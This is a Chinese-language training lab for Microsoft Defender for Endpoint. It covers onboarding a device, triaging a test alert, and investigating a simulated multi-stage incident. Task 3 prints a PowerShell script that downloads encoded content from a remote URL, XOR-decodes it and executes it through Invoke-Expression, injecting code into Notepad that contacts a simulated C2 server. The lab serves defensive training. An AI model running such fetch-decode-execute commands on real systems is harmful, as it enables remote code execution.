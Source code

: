 ```yaml
---
lab:
  title: 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 学习路径 2 - 实验室 1 - 练习 2 - 使用 Microsoft Defender for Endpoint 缓解攻击

## 实验室方案

![实验室概述。](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

你是一家公司的安全操作分析师，你的公司正在实施 Microsoft Defender for Endpoint。 你的主管计划加入一些设备，以深入了解安全运营 (SecOps) 团队响应程序所需的更改。

要探索 Defender for Endpoint 攻击缓解功能，你将验证设备载入是否成功，并调查在该过程中创建的警报和事件。

### 任务 1：验证设备加入

在此任务中，你将确认设备已成功加入并创建测试警报。

1. 如果尚未在 Microsoft Edge 浏览器中访问 Microsoft Defender XDR 门户，请转到 (<https://security.microsoft.com>) 并以租户的管理员身份登录。

1. 在左侧菜单的“资产”区域下，选择“设备” 。 请等到 WIN1 出现在“设备”页面中，然后再继续操作。 否则，可能需要重复此任务以查看稍后将生成的警报。

    >**注意：** 如果你已完成载入过程，但在一小时后未在“设备”列表中看到设备，这可能指示存在载入或连接问题。

1. 在 Microsoft Defender XDR 门户左侧菜单栏中，展开“系统”部分并选择“设置”，然后从“设置”页选择“终结点”。 **************

1. 在“设备管理”部分选择“加入”，并确保选择“Windows 10 和 11”作为操作系统。 “第一个设备已加入”消息现在显示“已完成” 。

1. 向下滚动，在“2. 运行检测测试”部分，选择“复制”按钮以复制检测测试脚本。  

1. 在 WIN1 虚拟机的 Windows 搜索栏中，键入“CMD”，然后在命令提示符应用的右窗格上，选择“以管理员身份运行” 。

1. 显示“用户帐户控制”窗口时，选择“是”以允许应用运行。 

1. 粘贴脚本的方法是右键单击“管理员:**命令提示符”窗口，并按 Enter 键运行** 。

    >**注意：** 该窗口会在成功运行脚本后自动关闭，并在几分钟后，在 Microsoft Defender XDR 门户中生成警报。

### 任务 2：调查警报和事件

在此任务中，你将调查上一任务中载入检测测试脚本生成的警报和事件。

1. 在 Microsoft Defender XDR 门户中，展开左侧菜单栏中的“调查和响应”，然后展开“事件和警报”并选择“警报”。************

    >**注意：** 在更新版本的 Microsoft Defender XDR 门户页面中，“事件和警报”可在“调查和响应”菜单标题下找到。****

1. 在“警报”窗格中，选择名为“[TestAlert] 可疑 PowerShell 命令行”的警报以加载其详细信息******。

1. 查看“警报情景”时间线，然后查看“详细信息”和“建议”选项卡******。

    >**注意：** 在警报“详细信息”选项卡下，可以向下滚动到“事件详细信息”部分，然后选择“一个终结点上的执行事件”链接以打开该事件******。

1. 在 Microsoft Defender XDR 门户中，从左侧菜单栏选择“事件和警报”，然后选择“事件”********

1. 通过选择筛选器右侧的“X”清除“警报严重性”筛选器。******

1. 右窗格中会显示名为“[TestAlert] 可疑 PowerShell 命令行”的新事件。** 选择事件名称以加载其详细信息。

1. 选择“管理事件”链接（带有铅笔图标），并显示一个新的窗口边栏选项卡****。

1. 在“事件标记”下，键入“模拟”，然后选择“模拟(新建)”以创建新标记。********

1. 选择切换“分配给”，将用户帐户（我）添加为事件所有者。

1. 在“分类”下，展开下拉菜单。

1. 在“参考性预期活动”下，选择“安全测试” 。

1. 选择“**保存**”以更新事件并完成。

1. 查看“攻击情景、警报、资产、调查、证据和响应”以及“摘要”选项卡的内容。 设备和用户位于“资产”选项卡下**。在实际事件中，“攻击情景”选项卡会显示“事件图”****。 提示：某些选项卡可能由于显示器的大小而被隐藏。 选择省略号选项卡 (...) 显示它们。

### 任务 3 模拟攻击

>**警告：** 此模拟攻击非常适合实践式学习。 在使用 Azure 租户提供的课程时，请仅执行为本实验室提供的说明中的攻击。  在此租户完成此培训课程后，可以执行其他模拟攻击。**

在此任务中，你将模拟 WIN1 虚拟机上的攻击，并验证 Microsoft Defender for Endpoint 是否检测到并缓解了攻击。

1. 在 WIN1 虚拟机上，右键单击“开始”按钮，然后选择“Windows PowerShell (管理员)”**********。

1. 显示“用户帐户控制”窗口时，选择“是”以允许应用运行。

1. 复制以下模拟脚本并将其粘贴到 PowerShell 窗口中，然后按 Enter 来运行该脚本****：

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**注意：** 如果在运行脚本时遇到错误（红色），则可以打开记事本应用并将脚本复制到空白文件中。 确保在记事本中启用了“自动换行”**。 然后在 PowerShell 中单独复制并运行脚本的每一行。 此外，实验开始时下载的文件中提供了一个 PowerShell 脚本 (attacksim.ps1)。 若要使用该脚本，请在“Windows PowerShell (管理员)”中导航到 \Users\Admin\Desktop\Allfiles 文件夹并键入 .\attacksim.ps1，然后按 Enter 运行。************

1. 该脚本将生成多行输出，并生成一条消息，指出“无法解析域中的域控制器”**。 几秒钟后，“记事本”应用将打开**。 模拟攻击代码将注入记事本中。 保持自动生成的记事本实例处于打开状态，以体验完整场景。 模拟攻击代码将尝试与外部 IP 地址通信（模拟 C2 服务器）。

### 任务 4：以单个事件的形式调查模拟攻击

1. 在 Microsoft Defender XDR 门户中，展开左侧菜单栏中的“调查和响应”，然后展开“事件和警报”并选择“事件”。************

    >**注意：** 在更新版本的 Microsoft Defender XDR 门户页面中，“事件和警报”可在“调查和响应”菜单标题下找到。****

1. 一个名为“涉及一个终结点上的防御规避和发现的多阶段事件”的新事件位于右侧窗格中**。 选择事件名称以加载其详细信息。

    >**注意：** 如果未看到事件，请确保通过选择筛选器右侧的“X”来清除“警报严重性”筛选器。******

1. 在“攻击案例”选项卡下，折叠“警报”和“事件详细信息”窗格以查看完整的“事件图”**************。

1. 将鼠标悬停在“事件图节点”上并选择它，以查看“实体”******。

1. 重新展开“警报”窗格（左侧），然后选择“播放攻击案例”和“运行”图标**********。 这会逐个警报地显示攻击时间线，并动态填充“事件图”**。

1. 查看“攻击情景、警报、资产、调查、证据和响应”以及“摘要”选项卡的内容。 设备和用户位于“资产”选项卡下**。提示****：某些选项卡可能由于显示器的大小而被隐藏。 选择省略号选项卡 (...) 显示它们。

1. 在“证据和响应”选项卡下，选择“IP 地址”，然后选择显示的“IP 地址”**********。 在弹出窗口中，查看 IP 地址详细信息，向下滚动并选择“打开 IP 地址页”按钮****。

1. 查看“IP 地址”页中“概述”、“事件和警报”以及“组织中的发现结果”选项卡的内容****。 某些选项卡可能不包含 IP 地址的信息。

## 你已完成本实验室
